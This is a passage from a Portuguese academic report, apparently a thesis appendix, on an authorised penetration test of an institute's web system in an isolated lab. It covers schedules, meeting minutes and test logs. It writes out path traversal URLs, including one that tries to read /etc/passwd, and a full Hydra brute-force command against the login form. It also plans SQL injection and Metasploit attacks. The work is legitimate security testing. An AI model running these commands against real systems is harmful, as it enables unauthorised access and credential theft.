\multicolumn{1}{D{0.328077\linewidth}}{\fftablefontsize Diego, Pâmela e Marcos}\\
\multicolumn{1}{D{0.209061\linewidth}}{\fftablefontsize Execução} & 
\multicolumn{1}{D{0.116667\linewidth}}{\fftablefontsize 28/03/16} & 
\multicolumn{1}{D{0.119799\linewidth}}{\fftablefontsize 05/04/16} & 
\multicolumn{1}{D{0.328077\linewidth}}{\fftablefontsize Diego e Pâmela}\\
\multicolumn{1}{D{0.209061\linewidth}}{\fftablefontsize Iteração 3} & 
\multicolumn{1}{D{0.116667\linewidth}}{\fftablefontsize 05/04/16} & 
\multicolumn{1}{D{0.119799\linewidth}}{\fftablefontsize 12/04/16} & 
\multicolumn{1}{D{0.328077\linewidth}}{\fftablefontsize Diego, Pâmela e Marcos}\\
\multicolumn{1}{D{0.209061\linewidth}}{\fftablefontsize Reunião de planejamento} & 
\multicolumn{1}{D{0.116667\linewidth}}{\fftablefontsize 05/04/16} & 
\multicolumn{1}{D{0.119799\linewidth}}{\fftablefontsize 05/04/16} & 
\multicolumn{1}{D{0.328077\linewidth}}{\fftablefontsize Diego, Pâmela e Marcos}\\
\multicolumn{1}{D{0.209061\linewidth}}{\fftablefontsize Execução} & 
\multicolumn{1}{D{0.116667\linewidth}}{\fftablefontsize 05/04/16} & 
\multicolumn{1}{D{0.119799\linewidth}}{\fftablefontsize 12/04/16} & 
\multicolumn{1}{D{0.328077\linewidth}}{\fftablefontsize Diego e Pâmela}\\
\multicolumn{1}{D{0.209061\linewidth}}{\fftablefontsize Iteração 4} & 
\multicolumn{1}{D{0.116667\linewidth}}{\fftablefontsize 12/04/16} & 
\multicolumn{1}{D{0.119799\linewidth}}{\fftablefontsize 19/04/16} & 
\multicolumn{1}{D{0.328077\linewidth}}{\fftablefontsize Diego, Pâmela e Marcos}\\
\multicolumn{1}{D{0.209061\linewidth}}{\fftablefontsize Reunião de planejamento} & 
\multicolumn{1}{D{0.116667\linewidth}}{\fftablefontsize 12/04/16} & 
\multicolumn{1}{D{0.119799\linewidth}}{\fftablefontsize 12/04/16} & 
\multicolumn{1}{D{0.328077\linewidth}}{\fftablefontsize Diego, Pâmela e Marcos}\\
\multicolumn{1}{D{0.209061\linewidth}}{\fftablefontsize Execução} & 
\multicolumn{1}{D{0.116667\linewidth}}{\fftablefontsize 12/04/16} & 
\multicolumn{1}{D{0.119799\linewidth}}{\fftablefontsize 19/04/16} & 
\multicolumn{1}{D{0.328077\linewidth}}{\fftablefontsize Diego e Pâmela}\\
\multicolumn{1}{D{0.209061\linewidth}}{\fftablefontsize Iteração 5} & 
\multicolumn{1}{D{0.116667\linewidth}}{\fftablefontsize 19/04/16} & 
\multicolumn{1}{D{0.119799\linewidth}}{\fftablefontsize 25/04/16} & 
\multicolumn{1}{D{0.328077\linewidth}}{\fftablefontsize Diego, Pâmela e Marcos}\\
\multicolumn{1}{D{0.209061\linewidth}}{\fftablefontsize Reunião de planejamento} & 
\multicolumn{1}{D{0.116667\linewidth}}{\fftablefontsize 19/04/16} & 
\multicolumn{1}{D{0.119799\linewidth}}{\fftablefontsize 19/04/16} & 
\multicolumn{1}{D{0.328077\linewidth}}{\fftablefontsize Diego, Pâmela e Marcos}\\
\multicolumn{1}{D{0.209061\linewidth}}{\fftablefontsize Execução} & 
\multicolumn{1}{D{0.116667\linewidth}}{\fftablefontsize 19/04/16} & 
\multicolumn{1}{D{0.119799\linewidth}}{\fftablefontsize 25/04/16} & 
\multicolumn{1}{D{0.328077\linewidth}}{\fftablefontsize Diego e Pâmela}\\
\multicolumn{1}{D{0.209061\linewidth}}{\fftablefontsize Iteração 6} & 
\multicolumn{1}{D{0.116667\linewidth}}{\fftablefontsize 25/04/16} & 
\multicolumn{1}{D{0.119799\linewidth}}{\fftablefontsize 09/05/16} & 
\multicolumn{1}{D{0.328077\linewidth}}{\fftablefontsize Diego, Pâmela e Marcos}\\
\multicolumn{1}{D{0.209061\linewidth}}{\fftablefontsize Reunião de planejamento} & 
\multicolumn{1}{D{0.116667\linewidth}}{\fftablefontsize 25/04/16} & 
\multicolumn{1}{D{0.119799\linewidth}}{\fftablefontsize 25/04/16} & 
\multicolumn{1}{D{0.328077\linewidth}}{\fftablefontsize Diego, Pâmela e Marcos}\\
\multicolumn{1}{D{0.209061\linewidth}}{\fftablefontsize Execução} & 
\multicolumn{1}{D{0.116667\linewidth}}{\fftablefontsize 25/04/16} & 
\multicolumn{1}{D{0.119799\linewidth}}{\fftablefontsize 09/05/16} & 
\multicolumn{1}{D{0.328077\linewidth}}{\fftablefontsize Diego e Pâmela}\\
\multicolumn{1}{D{0.209061\linewidth}}{\fftablefontsize Iteração 7} & 
\multicolumn{1}{D{0.116667\linewidth}}{\fftablefontsize 09/05/16} & 
\multicolumn{1}{D{0.119799\linewidth}}{\fftablefontsize 17/05/16} & 
\multicolumn{1}{D{0.328077\linewidth}}{\fftablefontsize Diego, Pâmela e Marcos}\\
\multicolumn{1}{D{0.209061\linewidth}}{\fftablefontsize Reunião de planejamento} & 
\multicolumn{1}{D{0.116667\linewidth}}{\fftablefontsize 09/05/17} & 
\multicolumn{1}{D{0.119799\linewidth}}{\fftablefontsize 09/05/17} & 
\multicolumn{1}{D{0.328077\linewidth}}{\fftablefontsize Diego, Pâmela e Marcos}\\
\multicolumn{1}{D{0.209061\linewidth}}{\fftablefontsize Execução} & 
\multicolumn{1}{D{0.116667\linewidth}}{\fftablefontsize 09/05/16} & 
\multicolumn{1}{D{0.119799\linewidth}}{\fftablefontsize 17/05/16} & 
\multicolumn{1}{D{0.328077\linewidth}}{\fftablefontsize Diego e Pâmela}\\
\multicolumn{1}{D{0.209061\linewidth}}{\fftablefontsize Reunião de revisão iteração 7} & 
\multicolumn{1}{D{0.116667\linewidth}}{\fftablefontsize 17/05/16} & 
\multicolumn{1}{D{0.119799\linewidth}}{\fftablefontsize 17/05/16} & 
\multicolumn{1}{D{0.328077\linewidth}}{\fftablefontsize Diego, Pâmela e Marcos}\\
\end{mpxtabular}
\end{center}



\subsubsection*{Recursos Humanos}


\begin{center}
\tablefirsthead{
\toprule
\multicolumn{1}{D{0.238815\linewidth}}{\fftablefontsize \textbf{Nome}} & 
\multicolumn{1}{D{0.270918\linewidth}}{\fftablefontsize \textbf{Papel}} & 
\multicolumn{1}{D{0.26622\linewidth}}{\fftablefontsize \textbf{Horas}}\\
}
\tablehead{
\toprule
\multicolumn{1}{D{0.186992145\linewidth}}{\fftablefontsize \textbf{Nome}} & 
\multicolumn{1}{D{0.212128794\linewidth}}{\fftablefontsize \textbf{Papel}} & 
\multicolumn{1}{D{0.20845026\linewidth}}{\fftablefontsize \textbf{Horas}}\\
}
\tabletail{
\bottomrule
}
\tablelasttail{
\bottomrule
\multicolumn{3}{D{0.783\linewidth}}{\newline\ffcaptionfontsize Autoria Própria}\\
}
\begin{mpxtabular}{lll}
\multicolumn{1}{D{0.238815\linewidth}}{\fftablefontsize Diego Antônio} & 
\multicolumn{1}{D{0.270918\linewidth}}{\fftablefontsize Analista de Teste} & 
\multicolumn{1}{D{0.26622\linewidth}}{\fftablefontsize 23 horas}\\
\multicolumn{1}{D{0.238815\linewidth}}{\fftablefontsize Pâmela Beatriz} & 
\multicolumn{1}{D{0.270918\linewidth}}{\fftablefontsize Analista de Teste} & 
\multicolumn{1}{D{0.26622\linewidth}}{\fftablefontsize 28 horas}\\
\multicolumn{1}{D{0.238815\linewidth}}{\fftablefontsize Marcos Costa} & 
\multicolumn{1}{D{0.270918\linewidth}}{\fftablefontsize Orientador} & 
\multicolumn{1}{D{0.26622\linewidth}}{\fftablefontsize 8 horas}\\
\end{mpxtabular}
\end{center}



\subsubsection*{Ambiente de Teste}

O ambiente de teste foi configurado da seguinte forma:


Dentro no DGTI - IFPE, havia uma máquina física que fazia uso do sistema operacional Windows 7. Essa máquina disponibilizava o acesso a uma máquina virtual (VM), utilizada para a execução dos testes de forma propriamente dita. Essa máquina virtual utilizava o sistema operacional Kali Linux e se estava em uma rede isolada sem acesso à rede local do IFPE e à Internet.


Existiam duas outras máquinas virtuais, as quais armazenavam individualmente o espelhamento do Servidor de Banco de Dados e do Servidor WEB, que hospedava o sistema ser testado. Ambas utilizavam o sistema operacional Windows Server 2013. Os analistas de teste não possuíram acesso a essas duas máquinas virtuais.


O Servidor Web foi acessado para teste através do browser da VM que contém o Kali Linux.


A Figura 6~mostra a atual configuração do ambiente





\begin{figure}[htp]
\centering
\caption{Configuração Ambiente de Teste}

\includegraphics[width=382px]{imagearquiteturaambientedetestes.jpeg}
\end{figure}
\ifdefined\FloatBarrier \FloatBarrier \fi


Para a realização dos testes, a partir do computador do analista de teste, foi realizado um acesso à máquina física por meio da ferramenta de conexão remota Team Viewer. Após estabelecer a conexão remota, foi possível acessar o ambiente do Kali Linux e dentro dessa máquina virtual acessar via browser o sistema explorado.



\subsubsection*{Processo de Teste}

O processo de testes foi realizado de forma incremental utilizando a prática Scrum para planejamento de iteração\textbf{.} Além disso, foram utilizados métodos do Kanban para a visualização do fluxo através de um quadro Kanban, bem como a limitação do trabalho em progresso.


Foi elaborado um relatório contendo todos os resultados das atividades realizadas durante as iterações. Para cada teste executado foram registrados: os passos utilizados na execução, os resultados de cada passo, bem como, a contabilização do tempo gasto durante a realização dos testes.



\section{Ata reunão de planejamento dos testes}


\subsection*{{[}ATA 01{]} Planejamento Iteração 01}


\subsubsection*{Objetivos}

A reunião do dia 21 de março de 2016, com duração de 1 hora, teve como objetivo o planejamento das atividades a serem realizadas na Iteração 01,~além de esclarecimento de dúvidas.



\subsubsection*{O que foi discutido}

Inicialmente, foram expostas todas as funcionalidades que poderiam ser exploradas no sistema a ser testado durante a Iteração 01. Em seguida, foi feita uma análise de quais funcionalidades do sistema deveriam ser exploradas inicialmente. Finalmente, foram definidas e priorizadas todas as atividades da Iteração 01.



\subsubsection*{Decisões}

Ficou acordado que os analistas de teste realizarão as seguintes


atividades:



\begin{enumerate}[start=1]
	
\item Tela Login - Exploração via Path Transversal;
	
\item Tela Login - Exploração via Força Bruta;
	
\item Tela Login - Mapeamento da hierarquia de pastas do sistema;
	
\item Tela Login - Exploração via Sql Injection;
	
\item Download do código fonte da aplicação;
	
\item Inclusão de arquivo no servidor web da aplicação.

\end{enumerate}

O prazo definido para finalização da Iteração 01 foi 28 de março de 2016. Além disso, a data da próxima reunião foi definida para também para o dia 28 de março de 2016.



\subsection*{{[}ATA 02{]} Planejamento Iteração 02}


\subsubsection*{Objetivos}

A reunião do dia 28 de março de 2016, com duração de 1 hora, teve como objetivo a apresentação dos resultados e impedimentos da Iteração 01. Devido ao grande impacto dos impedimentos ocorridos na Iteração 01, essa reunião focou no replanejamento das atividades pendentes da Iteração 01, que passaram a fazer parte da Iteração 02.



\subsubsection*{O que foi discutido}

Inicialmente, houve a exposição do que foi planejado para a Iteração 01, o que foi realizado e as dificuldades encontradas. Em seguida, as atividades previstas para a Iteração 01 foram replanejadas.



\subsubsection*{Atividades concluídas}


\begin{enumerate}[start=1]
	
\item Tela Login - Exploração via Path Transversal;
	
\item Tela Login - Mapeamento da hierarquia de pastas do sistema.

\end{enumerate}


\subsubsection*{Impedimentos}

O sistema explorado ficou indisponível entre os dias 23 a 28 de março de 2016. Para solucionar o impedimento foi enviado um e-mail à equipe da Diretoria Geral de Tecnologia da Informação - DGTI solicitando que o ambiente de testes fosse reiniciado.



\subsubsection*{Decisões}

A inatividade do sistema impactou no andamento das atividades previstas para a Iteração 01, impossibilitando sua conclusão no prazo inicialmente previsto. O prazo definido para finalização da Iteração 02 foi 05 de abril de 2016.


Ficou acordado que os analistas de teste realizarão as seguintes atividades:



\begin{enumerate}[start=1]
	
\item Tela Login - Exploração via Força Bruta;
	
\item Tela Login - Exploração via Sql Injection;
	
\item Download do código fonte da aplicação;
	
\item Inclusão de arquivo no servidor web da aplicação.

\end{enumerate}

Além disso, a data da próxima reunião foi definida para o dia 05 de abril de 2016.



\subsection*{{[}ATA 03{]} Planejamento Iteração 03}


\subsubsection*{Objetivos}

A reunião do dia 05 de abril de 2016, com duração de 1 hora, teve como objetivo a apresentação dos resultados e impedimentos da Iteração 02 e o planejamento das atividades para a Iteração 03.



\subsubsection*{O que foi discutido}

Inicialmente, houve a exposição do que foi planejado para a Iteração 02 e o que foi realizado. Em seguida, foram definidas e priorizadas todas as atividades da Iteração 03.



\subsubsection*{Atividades concluídas}


\begin{enumerate}[start=1]
	
\item Tela Login - Exploração via Força Bruta;
	
\item Tela Login - Exploração via Sql Injection;

\end{enumerate}


\subsubsection*{Observações}

As atividades: \emph{Download do código fonte da aplicação} e \emph{Inclusão de arquivo no servidor web da aplicação} não foram realizadas pois dependiam de que, nos testes anteriores, fossem descobertas possíveis vulnerabilidades para obter acesso não autorizado as pastas do servidor web da aplicação.



\subsubsection*{Decisões}

Ficou acordado que os analistas de teste realizarão as seguintes atividades:



\begin{enumerate}[start=1]
	
\item Análise do Servidor - Exploração via Nmap;
	
\item Tela Login - Exploração via SqlMap;
	
\item Descobrir senha de root do servidor;
	
\item Ataque à porta RCP via Metasploit;
	
\item Alteração de arquivo no servidor web da aplicação;
	
\item Descobrir dados pertencentes a usuários do sistema operacional do servidor web.

\end{enumerate}

O prazo definido para finalização da Iteração 03 foi 12 de abril de 2016. Além disso, a data da próxima reunião foi definida também para o dia 12 de abril de 2016.



\subsection*{{[}ATA 04{]} Planejamento Iteração 04}


\subsubsection*{Objetivos}

A reunião do dia 12 de abril de 2016, com duração de 1 hora, teve como objetivo a apresentação dos resultados da Iteração 03 e o planejamento das atividades para a Iteração 04.



\subsubsection*{O que foi discutido}

Inicialmente, houve a exposição do que foi planejado para a Iteração 03, o que foi realizado. Em seguida, foram definidas e priorizadas todas as atividades da Iteração 04.



\subsubsection*{Atividades concluídas}


\begin{enumerate}[start=1]
	
\item Análise do Servidor - Exploração via Nmap;
	
\item Tela Login - Exploração via SqlMap;
	
\item Ataque à porta RPC via Metasploit.

\end{enumerate}


\subsubsection*{Observações}

As seguintes atividades não foram realizadas porque não foi possível obter acesso não autorizado as pastas do servidor web da aplicação: \emph{Descobrir senha de root do servidor, Alteração de arquivo no servidor web da aplicação }e\emph{ Descobrir dados pertencentes a usuários do sistema operacional do servidor web.}



\subsubsection*{Decisões}

Ficou acordado que os analistas de teste realizarão as seguintes atividades:



\begin{enumerate}[start=1]
	
\item Tela Consulta Servidor - Exploração via Sql Injection;
	
\item Tela Consulta Servidor - Exploração via SqlMap;
	
\item Tela Cadastro de Lotes -- Exploração via XSS;
	
\item Análise do servidor via Nmap;
	
\item Tela Cadastro Lotes -- Exploração via Sql Injection e SqlMap.

\end{enumerate}

O prazo definido para finalização da Iteração 04 foi 19 de abril de 2016. Além disso, a data da próxima reunião foi definida para o dia 19 de abril de 2016.



\subsection*{{[}ATA 05{]} Planejamento Iteração 05}


\subsubsection*{Objetivos}

A reunião do dia 19 de abril de 2016, com duração de 1 hora, teve como objetivo a apresentação dos resultados e impedimentos da Iteração 04 e o planejamento das atividades para a Iteração 05.



\subsubsection*{O que foi discutido}

Inicialmente, houve a exposição do que foi planejado para a Iteração 04, o que foi realizado e as dificuldades encontradas. Em seguida, foram definidas e priorizadas todas as atividades da Iteração 05.



\subsubsection*{Atividades concluídas}


\begin{enumerate}[start=1]
	
\item Tela Consulta Servidor - Exploração via Sql Injection;
	
\item Tela Consulta Servidor - Exploração via SqlMap;
	
\item Tela Cadastro de Lotes -- Exploração via XSS;
	
\item Análise do servidor via Nmap;
	
\item Tela Cadastro Lotes -- Exploração via Sql Injection e SqlMap.

\end{enumerate}


\subsubsection*{Impedimentos}

A máquina virtual, que hospeda o servidor de banco de dados utilizado pelo sistema em teste, foi corrompida e ficou indisponível entre os dias 18 a 20 de abril de 2016. Foi enviado um e-mail à equipe do DGTI e como solução a base de dados foi transferida para dentro da máquina que hospeda o sistema em teste.



\subsubsection*{Decisões}

Ficou acordado que os analistas de teste realizarão as seguintes atividades:



\begin{enumerate}[start=1]
	
\item Explorar XSS - Tela Cadastro de lotes;
	
\item Tela Cadastro de servidor -- Exploração via Sql Injection e SqlMap;

\end{enumerate}

O prazo definido para finalização da Iteração 05 foi 25 de abril de 2016. Além disso, a data da próxima reunião foi definida para o dia 25 de abril de 2016.



\subsection*{{[}ATA 06{]} Planejamento Iteração 06}


\subsubsection*{Objetivos}

A reunião do dia 25 de abril de 2016, com duração de 1 hora, teve como objetivo a apresentação dos resultados e impedimentos da Iteração 05 e o planejamento das atividades para a Iteração 06.



\subsubsection*{O que foi discutido}

Inicialmente, houve a exposição do que foi planejado para a Iteração 05 e, logo em seguida, foram expostas as atividades realizadas para essa Iteração. Em seguida, foram definidas e priorizadas todas as atividades da Iteração 06.



\subsubsection*{Atividades concluídas}


\begin{enumerate}[start=1]
	
\item Explorar XSS - Tela Cadastro de lotes;
	
\item Tela Cadastro de servidor -- Exploração via Sql Injection e SqlMap.

\end{enumerate}


\subsubsection*{Decisões}

Ficou acordado que os analistas de teste realizarão as seguintes atividades:



\begin{enumerate}[start=1]
	
\item Explorar XSS - Tela Cadastro de servidor;
	
\item Mapeamento de vulnerabilidades -- Tela Relatórios

\end{enumerate}

O prazo definido para finalização da Iteração 06 foi 09 de maio de 2016. Além disso, a data da próxima reunião foi definida para o dia 09 de maio de 2016.



\subsection*{{[}ATA 07{]} Planejamento Iteração 07}


\subsubsection*{Objetivos}

A reunião do dia 09 de maio de 2016, com duração de 1 hora. Devido ao grande impacto dos impedimentos ocorridos na Iteração 06, essa reunião focou no replanejamento das atividades que ficaram pendentes na Iteração 06.



\subsubsection*{O que foi discutido}

Inicialmente, houve a exposição do que foi planejado para a Iteração 06, o que foi realizado e as dificuldades encontradas. Em seguida, foram definidas e priorizadas todas as atividades da Iteração 07.



\subsubsection*{Atividades concluídas}

Devido os impedimentos registrados para a Iteração 06, não houve atividades concluídas.



\subsubsection*{Impedimentos}

Devido problemas de reforma no espaço físico do DGTI, onde fica localizado o ambiente de testes, o sistema ficou indisponível entre os dias 04 e 10 de maio de 2016. Isso impossibilitou a realização de todas as atividades previstas para a Iteração 06.



\subsubsection*{Decisões~}

As atividades previstas para a Iteração 07 continuaram sendo as mesmas planejadas para a Iteração 06. Ficou acordado que os analistas de teste realizarão:



\begin{enumerate}[start=1]
	
\item Explorar XSS - Tela Cadastro de servidor;
	
\item Mapeamento de vulnerabilidades -- Tela Relatórios.

\end{enumerate}

O prazo definido para finalização da Iteração 07 foi 17 de maio de 2016.



\subsubsection*{{[}ATA 07{]} Planejamento Iteração 08}


\subsubsection*{Objetivos}

A reunião do dia 17 de maio de 2016, com duração de 1 hora, teve como objetivo a apresentação dos resultados da Iteração 07.



\subsubsection*{O que foi discutido}

Houve a exposição do que foi planejado e realizado para a Iteração 07.



\subsubsection*{Atividades concluídas}


\begin{enumerate}[start=1]
	
\item Explorar XSS - Tela Cadastro de servidor;
	
\item Mapeamento de vulnerabilidades -- Tela Relatórios

\end{enumerate}


\section{Relatório de execução dos testes}

Nessa sessão, serão relatados, de forma detalhada, os resultados obtidos na execução dos testes em cada iteração planejada. Serão apresentados os passos utilizados para detectar possíveis vulnerabilidades, as vulnerabilidades encontradas e quais danos estas podem causar caso sejam exploradas.



\subsection{Iteração 1}




\subsubsection*{Tela Login - Exploração via Path Transversal}

Tarefa realizada entre os dias 22/03/16 e 23/03/16.


Duração total das sessões executadas: 2 horas e 30 minutos.



\paragraph*{Objetivo}

Para identificar a estrutura de diretórios do sistema dentro do servidor, foi utilizada a funcionalidade Burp Spider da ferramenta Burp Suite, ambas abordadas no subcapítulo 3.2. Os resultados obtidos, conforme mostra a Figura 3, foram utilizados para executar os testes deste tópico.





\begin{figure}[htp]
\centering
\caption{Resultado mapeamento diretórios do sistema.}

\includegraphics[width=215px]{imagem2Editada.jpeg}
\end{figure}
\ifdefined\FloatBarrier \FloatBarrier \fi



\paragraph*{~}

Dada a estrutura hierárquica do sistema descrita na figura 7, o objetivo do teste é utilizar entradas maliciosas na URL para conseguir acesso a locais não autorizados a um usuário do sistema.



\paragraph*{Sessão de teste 1}

Quando o sistema não consegue efetuar um login, o seguinte parâmetro é exibido na url: nomeSistema/login.php?logado=false.


A primeira sessão de teste fará uma requisição ao servidor alterando a url citada anteriormente para: nomeSistema/login.php?logado=../../dir, a fim de verificar se o sistema não permite a navegação dentro das pastas armazenadas no servidor que hospeda o sistema explorado.



\begin{enumerate}[start=1]
	
\item 
	O comando \textquotedblleft{}../../\textquotedblright{} foi utilizado para tentar a navegação de forma forçada dentro da estrutura de pastas do sistema operacional do servidor no qual a aplicação está hospedada.

	
	
\item 
	O comando dir, no cmd do sistema operacional Windows, serve para listar os arquivos e diretórios dentro da pasta atual.

	

\end{enumerate}


\paragraph*{Resultado esperado}

Espera-se que o sistema bloqueie o acesso.



\paragraph*{Relatório de execução}

O sistema passou nos testes. Não foi possível obter o acesso a qualquer outra parte do sistema.



\paragraph*{Sessão de teste 2}

Fazer uma requisição ao servidor utilizando a url nomeSistema/login.php?logado= ../../cat /etc/passwd, a fim de verificar se o sistema não permite a navegação dentro das pastas armazenadas no servidor que hospeda o sistema explorado.



\begin{enumerate}[start=1]
	
\item 
	O comando \textquotedblleft{}../../\textquotedblright{} foi utilizado para tentar a navegação de forma forçada dentro da estrutura de pastas do sistema operacional do servidor no qual a aplicação está hospedada.

	
	
\item 
	O comando cat /etc/passwd , no sistema operacional Linux, serve para listar o conteúdo de passwd (local onde ficam armazenados informações de senha dos usuários). Como o sistema operacional do servidor em questão é Windows, então caso seja executado, o esperado seria um erro.

	

\end{enumerate}


\paragraph*{Resultado esperado}

Espera-se que o sistema bloqueie o acesso.



\paragraph*{Relatório de execução}

O sistema passou nos testes. Não foi possível obter o acesso a qualquer outra parte do sistema.



\paragraph*{Sessão de teste 3}

Fazer uma requisição ao servidor utilizando a url nomeSistema/login.php?logado=\%2e\%2e\%2f\%2e\%2e\%2f (código equivalente a ../../), a fim de verificar se o sistema não permite a navegação dentro das pastas armazenadas no servidor que hospeda o sistema explorado.



\begin{enumerate}[start=1]
	
\item 
	O comando \textquotedblleft{}../../\textquotedblright{} serve para tentar a navegação de forma forçada dentro da estrutura de pastas do sistema operacional do servidor que hospeda o sistema explorado.

	

\end{enumerate}


\paragraph*{Resultado esperado}

Espera-se que o sistema bloqueie o acesso.



\paragraph*{Relatório de execução}

O sistema passou nos testes. Não foi possível obter o acesso a qualquer outra parte do sistema.



\paragraph*{Sessão de teste 4}

Fazer uma requisição ao servidor utilizando a url nomeSistema/login.php?logado=../data.js para acessar o arquivo \textquotedblleft{}data.js\textquotedblright{}, a fim de verificar se o sistema não permite a navegação dentro das pastas armazenadas no servidor que hospeda o sistema explorado.



\begin{enumerate}[start=1]
	
\item 
	O comando \textquotedblleft{}../\textquotedblright{} serve para tentar navegar de forma forçada dentro da estrutura de pastas do sistema operacional do servidor.

	
	
\item 
	\textquotedblleft{}data.js\textquotedblright{} é um arquivo descoberto através do escaneamento realizado pela funcionalidade Burp Spider, da ferramenta Burp Suite, para mapear a estrutura de pastas da aplicação.

	

\end{enumerate}


\paragraph*{Resultado esperado}

Espera-se que o sistema bloqueie o acesso.



\paragraph*{Relatório de execução}

O sistema passou nos testes. Não foi possível obter o acesso a qualquer outra parte do sistema.





\paragraph*{Sessão de teste 5}

Fazer uma requisição ao servidor utilizando a url nomeSistema/login.php?logado=../../../ , a fim de verificar se o sistema não permite a navegação dentro das pastas armazenadas no servidor que hospeda o sistema explorado.



\begin{enumerate}[start=1]
	
\item 
	O comando \textquotedblleft{}../../../\textquotedblright{} serve para tentar navegar de forma forçada dentro da estrutura de pastas do sistema operacional que hospeda a aplicação.

	

\end{enumerate}


\paragraph*{Resultado esperado}

Espera-se que o sistema bloqueie o acesso.



\paragraph*{Relatório de execução}

O sistema passou nos testes. Não foi possível obter o acesso a qualquer outra parte do sistema.





\paragraph*{Sessão de teste 6}

Fazer uma requisição ao servidor utilizando a url nomeSistema/login.php?login=teste\&senha=../../../, a fim de verificar se o sistema não permite a navegação dentro das pastas armazenadas no servidor que hospeda o sistema explorado.



\begin{enumerate}[start=1]
	
\item 
	O comando \textquotedblleft{}../../../\textquotedblright{} serve para tentar navegar de forma forçada dentro da estrutura de pastas do sistema operacional que hospeda a aplicação.

	

\end{enumerate}


\paragraph*{Resultado esperado}


\paragraph*{~}

Espera-se que o sistema impeça o acesso.



\paragraph*{Relatório de execução}

O sistema passou nos testes. Não foi possível obter o acesso a qualquer outra parte do sistema.



\paragraph*{Sessão de teste 7}

Fazer uma requisição ao servidor utilizando a url nomeSistema/login.php?login=teste\&senha=.. , a fim de verificar se o sistema não permite a navegação dentro das pastas armazenadas no servidor que hospeda o sistema explorado.



\begin{enumerate}[start=1]
	
\item 
	O comando \textquotedblleft{}..\textquotedblright{} serve para tentar navegar de forma forçada dentro da estrutura de pastas do sistema operacional que hospeda a aplicação.

	

\end{enumerate}


\paragraph*{Resultado esperado}

Espera-se que o sistema bloqueie o acesso.



\paragraph*{Relatório de execução}

O sistema passou nos testes. Não foi possível obter o acesso a qualquer outra parte do sistema.





\subsubsection*{Tela Login - Mapeamento da hierarquia de pastas do sistema}

Tarefa realizada dia 22/03/16.


Duração total das sessões executadas: 1 hora e 30 minutos.



\paragraph*{Objetivo}

Utilizar de forma automatizada o módulo Burp Spider da ferramenta Burp Suite e a partir da URL da tela de Login: IP\_do\_servidor/nomeSistema/login.php realizar um reconhecimento da hierarquia de diretórios do sistema armazenados dentro do servidor. Mediante aos resultados, verificar se foi possível ter acesso à hierarquia de pastas do sistema mesmo sem efetuar a requisição do login. Além disso, verificar se é possível ter acesso aos códigos da aplicação.





\paragraph*{Sessão de teste 1}

Acessar a página do Login utilizando a url http:// IP\_do\_servidor/nomeSistema/login.php.



\paragraph*{Resultado esperado}

Espera-se que o sistema não permita a visualização da hierarquia de pastas do sistema.



\paragraph*{Relatório de execução}

O sistema passou nos testes. Conforme mostra Figura 8, não foi possível mapear a estrutura de pastas do sistema apenas acessando a página de Login.





\begin{figure}[htp]
\centering
\caption{Resultado mapeamento diretórios do sistema a partir da tela de Login.}

\includegraphics[width=152px]{imagem3Editada.jpeg}
\end{figure}
\ifdefined\FloatBarrier \FloatBarrier \fi



\paragraph*{~}


\subsection{Iteração 2}




\subsubsection*{Tela Login - Exploração via Força Bruta}

Tarefa realizada dia 01/04/16.


Duração total das sessões executadas: 1 hora e 20 minutos.



\paragraph*{Objetivo}

Utilizar a ferramenta Hydra, abordada no subcapítulo 3.2, para encontrar, por meio de tentativa e erro, um login de um usuário e senha válidos para acessar o sistema explorado.



\paragraph*{Sessão de teste 1}

Configurar a Hydra, com os parâmetros login e senha, para que ela realize os testes de acesso com força bruta na tela de Login.



\paragraph*{Resultado esperado}

Espera-se que o sistema possua proteção Antispam, como Captcha que impeça a ferramenta automatizada de prosseguir até o fim do teste.



\paragraph*{Relatório de execução}

Indefinido. A ferramenta está esperando 3 parâmetros quando, a tela de Login só utiliza 2 na requisição.



\paragraph*{Sessão de teste 2}

Inserir um login de usuário válido e possíveis senhas mais comuns utilizadas para acesso de um sistema.


Comando utilizado: hydra -l admin -P forcaBruta IP\_do\_servidor http-post-form \textquotedblleft{}nomeSistema/login.php:login=\^{}USER\^{}:senha=\^{}PASS\^{}:logado=false\textquotedblright{}


No comando acima:



\begin{enumerate}[start=1]
	
\item 
	\textquotedblleft{}hydra\textquotedblright{} executa a ferramenta Hydra;

	
	
\item 
	\textquotedblleft{}-l\textquotedblright{} significa o login utilizado no momento. Nesse caso, deve ser sempre \textquotedblleft{}admin\textquotedblright{}, pois foi o único usuário válido fornecido para a realização de testes no sistema explorado;

	
	
\item 
	\textquotedblleft{}-P\textquotedblright{} aponta para o arquivo contendo as senhas que a Hydra tentará utilizar para acessar o sistema;

	
	
\item 
	\textquotedblleft{}IP\_do\_servidor\textquotedblright{} é o IP onde está hospedada a aplicação alvo;

	
	
\item 
	\textquotedblleft{}http-post-form\textquotedblright{} informa o método utilizado para fazer a requisição ao servidor: POST do protocolo HTTP;

	
	
\item 
	\textquotedblleft{}nomeSistema/login.php:login=\^{}USER\^{}:senha=\^{}PASS\^{}:logado=false\textquotedblright{} é a URL utilizada para fazer a requisição.


	
\begin{enumerate}[start=1]
		
\item 
		USER é onde a Hydra deve inserir o login válido usado na requisição;

		
		
\item 
		PASS é onde a Hydra deve inserir a senha válida usada na requisição.

		
	
\end{enumerate}
	

\end{enumerate}


\paragraph*{Resultado esperado}

Espera-se que o sistema interrompa as sessões de testes configuradas na ferramenta Hydra.



\paragraph*{Relatório de execução}

O sistema não passou nos testes. Todas as sessões de testes foram executadas pela Hydra sem nenhum tipo de interrupção por parte do sistema alvo.





\paragraph*{Sessão de teste 3}

